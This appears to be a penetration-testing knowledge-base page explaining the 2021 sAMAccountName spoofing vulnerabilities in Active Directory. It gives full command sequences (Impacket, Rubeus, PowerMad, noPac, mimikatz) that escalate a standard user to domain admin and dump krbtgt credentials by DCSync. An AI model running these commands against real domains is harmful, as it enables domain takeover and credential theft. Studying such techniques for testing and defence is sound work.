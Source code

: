 ```yaml
---
description: CVE-2021-42278 and CVE-2021-42287
---
```


# sAMAccountName spoofing

## Theory

In November 2021, two vulnerabilities caught the attention of many security researchers as they could allow domain escalation from a standard user.

### CVE-2021-42278 - Name impersonation

Computer accounts should have a trailing `$` in their name (i.e. `sAMAccountName` attribute) but no validation process existed to make sure of it. Abused in combination with CVE-2021-42287, it allowed attackers to impersonate domain controller accounts.

### CVE-2021-42287 - KDC bamboozling

When requesting a Service Ticket, presenting a TGT is required first. When the service ticket is asked for is not found by the KDC, the KDC automatically searches again with a trailing `$`. What happens is that if a TGT is obtained for `bob`, and the `bob` user gets removed, using that TGT to request a service ticket for another user to himself (S4U2self) will result in the KDC looking for `bob$` in AD. If the domain controller account `bob$` exists, then `bob` (the user) just obtained a service ticket for `bob$` (the domain controller account) as any other user :exploding\_head:.

{% hint style="success" %}
As Elad Shamir said in his article [Wagging the Dog](https://shenaniganslabs.io/2019/01/28/Wagging-the-Dog.html#solving-a-sensitive-problem), "S4U2Self works for a user marked as sensitive for delegation and a member of the Protected Users group".
{% endhint %}

## Practice

### Machine Account

The ability to edit a machine account's `sAMAccountName` and `servicePrincipalName` attributes is a requirement to the attack chain. The easiest way this can be achieved is by creating a computer account (e.g. by leveraging the [MachineAccountQuota](../domain-settings/machineaccountquota.md) domain-level attribute if it's greater than 0). The creator of the new machine account has enough privileges to edit its attributes. Alternatively, taking control over the owner/creator of a computer account should do the job.

The attack can then be conducted as follows.

1. Clear the controlled machine account `servicePrincipalName` attribute of any value that points to its name (e.g. `host/machine.domain.local`, `RestrictedKrbHost/machine.domain.local`)
2. Change the controlled machine account `sAMAccountName` to a Domain Controller's name without the trailing `$` -> [CVE-2021-42278](samaccountname-spoofing.md#cve-2021-42278-name-impersonation)
3. Request a TGT for the controlled machine account
4. Reset the controlled machine account `sAMAccountName` to its old value (or anything else different than the Domain Controller's name without the trailing `$`)
5. Request a service ticket with S4U2self by presenting the TGT obtained before -> [CVE-2021-42287](samaccountname-spoofing.md#cve-2021-42287-kdc-lookup)
6. Get access to the domain controller (i.e. [DCSync](../credentials/dumping/dcsync.md))

{% hint style="warning" %}
Some of the tools and features that allow exploitation of these vulnerabilities are still in development

* Impacket's getST: [https://github.com/SecureAuthCorp/impacket/pull/1202](https://github.com/SecureAuthCorp/impacket/pull/1202)
* Impacket's renameMachine: [https://github.com/SecureAuthCorp/impacket/pull/1224](https://github.com/SecureAuthCorp/impacket/pull/1224)
{% endhint %}

### Enumerate

{% tabs %}
{% tab title="UNIX-like" %}
[NetExec](https://github.com/Pennyw0rth/NetExec) (Python) can be used to check if the target is vulnerable to NoPac.

```bash
netexec smb $IP -u $USER -p $PASSWORD -M nopac
```
{% endtab %}
{% endtabs %}

### Abuse

{% tabs %}
{% tab title="UNIX-like" %}
On UNIX-like systems, the steps mentioned above can be conducted with

* [krbelayx](https://github.com/dirkjanm/krbrelayx)'s (Python) addspn script for the manipulation of the computer's SPNs
* [Impacket](https://github.com/SecureAuthCorp/impacket)'s (Python) scripts (addcomputer, renameMachine, getTGT, getST, secretsdump) for all the other operations

```bash
# 0. create a computer account
addcomputer.py -computer-name 'ControlledComputer$' -computer-pass 'ComputerPassword' -dc-host DC01 -domain-netbios domain 'domain.local/user1:complexpassword'

# 1. clear its SPNs
addspn.py --clear -t 'ControlledComputer$' -u 'domain\user' -p 'password' 'DomainController.domain.local'

# 2. rename the computer (computer -> DC)
renameMachine.py -current-name 'ControlledComputer$' -new-name 'DomainController' -dc-ip 'DomainController.domain.local' 'domain.local'/'user':'password'

# 3. obtain a TGT
getTGT.py -dc-ip 'DomainController.domain.local' 'domain.local'/'DomainController':'ComputerPassword'

# 4. reset the computer name
renameMachine.py -current-name 'DomainController' -new-name 'ControlledComputer$' 'domain.local'/'user':'password'

# 5. obtain a service ticket with S4U2self by presenting the previous TGT
KRB5CCNAME='DomainController.ccache' getST.py -self -impersonate 'DomainAdmin' -altservice 'cifs/DomainController.domain.local' -k -no-pass -dc-ip 'DomainController.domain.local' 'domain.local'/'DomainController'

# 6. DCSync by presenting the service ticket
KRB5CCNAME='DomainAdmin.ccache' secretsdump.py -just-dc-user 'krbtgt' -k -no-pass -dc-ip 'DomainController.domain.local' @'DomainController.domain.local'
```

{% hint style="success" %}
When using [Impacket](https://github.com/SecureAuthCorp/impacket)'s addcomputer script for the creation of a computer account, the "SAMR" method is used by default (instead of the LDAPS one). At the time of writing (10th of December, 2021), the SAMR method creates the account without SPNs, which allows to skip step #1.
{% endhint %}
{% endtab %}

{% tab title="Windows" %}
On Windows systems, the steps mentioned above can be conducted with

* [PowerMad](https://github.com/Kevin-Robertson/Powermad/)'s (PowerShell) `New-MachineAccount` and `Set-MachineAccountAttribute` functions for the creation and manipulation of a computer account
* with [Rubeus](https://github.com/GhostPack/Rubeus) (C#) for the requests of Kerberos TGT and Service Ticket
* with [Mimikatz](https://github.com/gentilkiwi/mimikatz) (C) for the [DCSync](../credentials/dumping/dcsync.md) operation

```powershell
# 0. create a computer account
$password = ConvertTo-SecureString 'ComputerPassword' -AsPlainText -Force
New-MachineAccount -MachineAccount "ControlledComputer" -Password $($password) -Domain "domain.local" -DomainController "DomainController.domain.local" -Verbose

# 1. clear its SPNs
Set-DomainObject -Identity 'ControlledComputer$' -Clear 'serviceprincipalname' -Verbose

# 2. rename the computer (computer -> DC)
Set-MachineAccountAttribute -MachineAccount "ControlledComputer" -Value "DomainController" -Attribute samaccountname -Verbose

# 3. obtain a TGT
Rubeus.exe asktgt /user:"DomainController" /password:"ComputerPassword" /domain:"domain.local" /dc:"DomainController.domain.local" /nowrap

# 4. reset the computer name
Set-MachineAccountAttribute -MachineAccount "ControlledComputer" -Value "ControlledComputer" -Attribute samaccountname -Verbose

# 5. obtain a service ticket with S4U2self by presenting the previous TGT
Rubeus.exe s4u /self /impersonateuser:"DomainAdmin" /altservice:"ldap/DomainController.domain.local" /dc:"DomainController.domain.local" /ptt /ticket:[Base64 TGT]

# 6. DCSync
(mimikatz) lsadump::dcsync /domain:domain.local /kdc:DomainController.domain.local /user:krbtgt 
```

[noPac](https://github.com/cube0x0/noPac) (C#) is an automated alternative that can be used to scan and abuse unpatched targets.

```powershell
noPac.exe scan -domain domain.local -user "lowpriv" -pass "lowpriv"
noPac.exe -domain mcafeelab.local -user "lowpriv" -pass "lowpriv" /dc dc.domain.local /mAccount pillemann11 /mPassword pilleman11 /service ldaps /ptt /impersonate Administrator
(mimikatz) lsadump::dcsync /domain:mcafeelab.local /all
```
{% endtab %}
{% endtabs %}

{% hint style="warning" %}
In the screenshot below, the `-spn` argument is used in the `getST.py` command. The option is to be replaced with `-altservice`.
{% endhint %}

<figure><img src="../../../.gitbook/assets/spaces_-MHRw3PMJtbDDjbxm5ub_uploads_JCIbFHflwCsQx8sO9d2J_Screenshot from 2021-12-10 22-21-10.webp" alt=""><figcaption></figcaption></figure>

### User account

An alternative to using computer accounts is to have enough permissions against a user account (cf. [Access Controls abuse](broken-reference)) to edit its `sAMAccountName` attribute (i.e. `WriteProperty` on the attribute, or on the « general information » or « public information » property sets, or `GenericWrite`, or `GenericAll`).

This attack path also requires knowledge of the user account password or hash (to obtain a TGT), which can be obtained (or set) in many ways (e.g. [Targeted Kerberoasting](../dacl/targeted-kerberoasting.md), [Shadow Credentials](shadow-credentials.md), [Forced Password Change](../dacl/forcechangepassword.md)).

Appart from the computer account creation and SPNs manipulation, the exploitation steps are the same as with a [machine account](samaccountname-spoofing.md#machine-account). If the account has SPNs that point to its name, they will have to be removed for the renaming operation to work.

## Resources

{% embed url="https://exploit.ph/cve-2021-42287-cve-2021-42278-weaponisation.html" %}

{% embed url="https://exploit.ph/more-samaccountname-impersonation.html" %}

{% embed url="https://cloudbrothers.info/en/exploit-kerberos-samaccountname-spoofing" %}

{% embed url="https://twitter.com/snovvcrash/status/1471829627765239816" %}
sAMAccountName exploitation through assembly execution
{% endembed %}
